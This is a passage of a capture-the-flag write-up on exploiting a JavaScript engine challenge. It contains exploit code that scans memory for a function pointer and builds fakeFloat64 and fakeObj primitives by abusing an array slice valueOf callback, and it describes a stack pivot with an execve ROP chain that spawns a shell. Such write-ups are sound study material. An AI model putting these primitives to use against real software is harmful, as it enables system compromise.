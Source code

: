 ```javascript
// Find function pointer of assert
let assert_ptr = pie_base + 0xa9aa;
let heap_base = pie_base + 0x6D188;
var address = heap_base;
var found = false;

for (var i = 0; i < 0x8000; i++) {
    address = heap_base + i;
    idx = old_idx;
    haystack[idx++] = shift(address, 0) & 0xFF;
    haystack[idx++] = shift(address, 8) & 0xFF;
    haystack[idx++] = shift(address, 16) & 0xFF;
    haystack[idx++] = shift(address, 24) & 0xFF;
    haystack[idx++] = shift(address, 32) & 0xFF;
    haystack[idx++] = shift(address, 40) & 0xFF;
    haystack[idx++] = 0x00;
    haystack[idx++] = 0x00;
    let rv = parseInt(f64_to_hex(arw[0]), 16);
    if (rv == assert_ptr) {
        found = true;
        print("[+] found assert pointer at: " + address.toString(16));
        break;
    }
}
```

But we can't control the arguments, so we use a stack pivot method. So first, we leak `environ` to get a stack address, and spray `environ`-0x100 with `ret` gadgets, which is a similar techinque to NOP sled. Afterwards, I placed an `execve` rop chain that spawns a shell. I didn't use `system` because for some reason it segfaults if the stack configuration is messed up. The final exploit code is here. During the CTF I couldn't continue after creating an arbitrary read/write primitive, so n0psledbyte and hk finished the exploit.

```javascript
function fakeFloat64(addr) {
    var a = [];
    for (var i = 0; i < 100; i++) {
        a.push(0);
    }
    
    var b = a.slice(12, {valueOf: function() {
            a.length = 5;
            r = new ArrayBuffer(320);
            var w = new Uint32Array(r);
            w[0] = (addr << 3 ) | 2;
            return 13;
        }
    });
    return b.pop()
}

function fakeObj(addr) {
    var a = [];
    for (var i = 0; i < 100; i++) {
        a.push(0);
    }
    
    var b = a.slice(12, {valueOf: function() {
            a.length = 5;
            r = new ArrayBuffer(320);
            var w = new Uint32Array(r);
            w[0] = (addr << 3 ) | 3;
            return 13;
        }
```